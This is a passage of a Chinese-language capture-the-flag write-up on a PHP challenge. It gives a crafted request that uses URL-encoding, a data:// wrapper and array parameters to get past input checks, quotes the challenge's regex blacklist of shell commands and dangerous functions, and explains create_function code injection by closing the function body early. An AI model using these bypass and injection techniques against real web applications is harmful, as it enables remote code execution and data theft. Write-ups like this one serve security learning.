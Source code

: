 没有is_string的判断 不需要碰撞 数组绕过即可

```cobol
GET
 
?deb%75=aq%75a_is_c%75te%0a&file=data://text/plain,deb%75_deb%75_aq%75a&shan%61[]=1&p%61sswd[]=2
 
 
POST 
 
debu=1&file=2   //其他不需要是因为我们没有传入字母了
```

## create_function代码注入

```bash
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```

这个也是最难的

首先我们知道create_funtion的代码是什么

```php
$aaa = create_function('$a, $b', 'return $a+$b;');
 
和
 
function aaa($a,$b){
    return $a+$b
}
 
一样
 
但是这里注意 我们现在的arg 其实就是 return $a+$b 并且是可控的 如果我们闭合 代码注入呢
 
 
$aaa = create_function('$a, $b', 'return $a+$b;}想执行的函数()');//
 
就变为了
 
 
function aaa($a,$b){
    return $a+$b;}
想执行的函数();//
}
 
美化一下
 
function aaa($a,$b){
    return $a+$b;
}
想执行的函数();      //}
 
这里我们不就实现了代码注入
```
